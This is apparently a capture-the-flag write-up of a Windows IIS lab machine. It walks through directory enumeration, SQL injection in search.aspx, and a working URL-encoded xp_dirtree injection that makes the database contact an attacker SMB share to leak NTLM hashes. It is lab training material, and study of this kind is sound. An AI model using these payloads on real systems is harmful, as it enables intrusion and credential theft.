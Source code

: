 ## Website
### Site

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904174848.png)

ISS Windows Server
Directory searching via ffuf found /remote

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904175059.png)

and I it stops (porbably dos)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904175041.png)

as we can read switch to https

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904175136.png)

```
feroxbuster -u http://10.10.10.104
```

Found /remote and /mvc probably running aspx
I searched google and found /mvc structure folders
https://www.tutorialsteacher.com/mvc/mvc-folder-structure
searching in default page 

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904180543.png)

registration

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904180636.png)

Bingo!
SQL Injection in search.aspx `' OR '1'='1`

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904182014.png)

also in URL we have sql injection

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250904192017.png)

Trying using cheat sheet:
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
and: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html
```
- `?vulnerableParam=1; DECLARE @q varchar(1024); SET @q = '\\'+(**_YOUR-INJECTION-HERE_**)+'.example.com\\test.txt'; EXEC master..xp_dirtree @q`
```

and this works for me
```
26%3bDECLARE+%40q+varchar(1024)%3bSET+%40q%3d'\\10.10.14.8\share\test'%3bEXEC+master.dbo.xp_dirtree+%40q%3b--%2b
```
